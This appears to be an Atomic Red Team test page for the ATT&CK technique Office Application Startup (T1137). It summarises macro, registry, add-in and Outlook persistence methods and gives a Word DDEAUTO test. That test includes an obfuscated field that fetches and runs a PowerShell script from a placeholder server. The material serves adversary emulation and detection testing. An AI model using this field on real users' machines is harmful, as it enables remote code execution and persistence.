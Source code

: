 # T1137 - Office Application Startup
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1137)
<blockquote>Microsoft Office is a fairly common application suite on Windows-based operating systems within an enterprise network. There are multiple mechanisms that can be used with Office for persistence when an Office-based application is started.

### Office Template Macros

Microsoft Office contains templates that are part of common Office applications and are used to customize styles. The base templates within the application are used each time an application starts. (Citation: Microsoft Change Normal Template)

Office Visual Basic for Applications (VBA) macros (Citation: MSDN VBA in Office) can inserted into the base templated and used to execute code when the respective Office application starts in order to obtain persistence. Examples for both Word and Excel have been discovered and published. By default, Word has a Normal.dotm template created that can be modified to include a malicious macro. Excel does not have a template file created by default, but one can be added that will automatically be loaded. (Citation: enigma0x3 normal.dotm) (Citation: Hexacorn Office Template Macros)

Word Normal.dotm location:<code>C:\Users\(username)\AppData\Roaming\Microsoft\Templates\Normal.dotm</code>

Excel Personal.xlsb location:<code>C:\Users\(username)\AppData\Roaming\Microsoft\Excel\XLSTART\PERSONAL.XLSB</code>

An adversary may need to enable macros to execute unrestricted depending on the system or enterprise security policy on use of macros.

### Office Test

A Registry location was found that when a DLL reference was placed within it the corresponding DLL pointed to by the binary path would be executed every time an Office application is started (Citation: Hexacorn Office Test)

<code>HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf</code>

### Add-ins

Office add-ins can be used to add functionality to Office programs. (Citation: Microsoft Office Add-ins)

Add-ins can also be used to obtain persistence because they can be set to execute code when an Office application starts. There are different types of add-ins that can be used by the various Office products; including Word/Excel add-in Libraries (WLL/XLL), VBA add-ins, Office Component Object Model (COM) add-ins, automation add-ins, VBA Editor (VBE), Visual Studio Tools for Office (VSTO) add-ins, and Outlook add-ins. (Citation: MRWLabs Office Persistence Add-ins)(Citation: FireEye Mail CDS 2018)

### Outlook Rules, Forms, and Home Page

A variety of features have been discovered in Outlook that can be abused to obtain persistence, such as Outlook rules, forms, and Home Page.(Citation: SensePost Ruler GitHub) 

Outlook rules allow a user to define automated behavior to manage email messages. A benign rule might, for example, automatically move an email to a particular folder in Outlook if it contains specific words from a specific sender. Malicious Outlook rules can be created that can trigger code execution when an adversary sends a specifically crafted email to that user.(Citation: SilentBreak Outlook Rules)

Outlook forms are used as templates for presentation and functionality in Outlook messages. Custom Outlook Forms can be created that will execute code when a specifically crafted email is sent by an adversary utilizing the same custom Outlook form.(Citation: SensePost Outlook Forms)

Outlook Home Page is a legacy feature used to customize the presentation of Outlook folders. This feature allows for an internal or external URL to be loaded and presented whenever a folder is opened. A malicious HTML page can be crafted that will execute code when loaded by Outlook Home Page.(Citation: SensePost Outlook Home Page)

To abuse these features, an adversary requires prior access to the user’s Outlook mailbox, either via an Exchange/OWA server or via the client application. Once malicious rules, forms, or Home Pages have been added to the user’s mailbox, they will be loaded when Outlook is started. Malicious Home Pages will execute when the right Outlook folder is loaded/reloaded while malicious rules and forms will execute when an adversary sends a specifically crafted email to the user.(Citation: SilentBreak Outlook Rules)(Citation: SensePost Outlook Forms)(Citation: SensePost Outlook Home Page)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DDEAUTO](#atomic-test-1---ddeauto)


<br/>

## Atomic Test #1 - DDEAUTO

TrustedSec - Unicorn - https://github.com/trustedsec/unicorn

SensePost DDEAUTO - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Word VBA Macro

[Dragon's Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)

**Supported Platforms:** Windows


#### Run it with these steps! 1. Open Word

2. Insert tab -> Quick Parts -> Field

3. Choose = (Formula) and click ok.

4. Once the field is inserted, you should now see "!Unexpected End of Formula"

5. Right-click the Field, choose "Toggle Field Codes"

6. Paste in the code from Unicorn or SensePost

7. Save the Word document.

9. DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

10. DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\{ QUOTE 87 105 110 100 111 119 115 80 111 119 101 114 83 104 101 108 108 }\\v1.0\\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 } -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http://<server>/download.ps1'); # " "Microsoft Document Security Add-On"





<br/>
